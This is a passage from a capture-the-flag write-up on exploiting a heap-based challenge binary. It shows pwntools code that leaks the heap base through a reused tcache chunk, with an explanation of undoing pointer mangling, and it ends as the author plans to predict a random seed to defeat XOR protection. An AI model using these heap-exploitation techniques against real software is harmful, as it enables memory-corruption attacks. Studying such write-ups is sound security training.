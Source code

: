 ```py
    io.sendlineafter(b'> ', b'6')

def write_chonc_file():
    io.sendlineafter(b'> ', b'7')
    io.sendlineafter(b']\n', b'y')

libc = elf.libc
context.log_level = 'info'

# PWN HERE

context.log_level = 'error'
io.interactive()
io.close()

```

Let's get out heap leak ! As i said this program doesn't clear anything when it redistributes chunks so we could use that to our advantage and do the following : 
- create a choncc
- free it
- create a choncc of the same size as the previous one
- read the choncc

When the choncc gets freed, it'll be linked into the tcache and thus will have some metadata in it's **fd**.
And when we reallocate this chunk, we will be able to read it's metadata and get a heap leak ! 

```py
# Get heap leak
create_chonc(0x28)
delete_chonc(1)

create_chonc(0x28)
view_chonc(1)

io.recvuntil(b': ')
heap_base = unpack(io.recv(8)) << 12
info("heap base : " + hex(heap_base))
```

Note that we have to shift the leaked address by 12 because of pointer mangling in this version of libc.

![img](images/heap_leak.png)

Nice ! we know have the heap's base address for any use we could need it for. 
We can get into the interesting stuff now...

Let's add some libc random implementation to our python script to set the seed at the same time as the program
and hopefully get the same seed ! This will grant us the ability to bypass the file structure's XOR encryption.
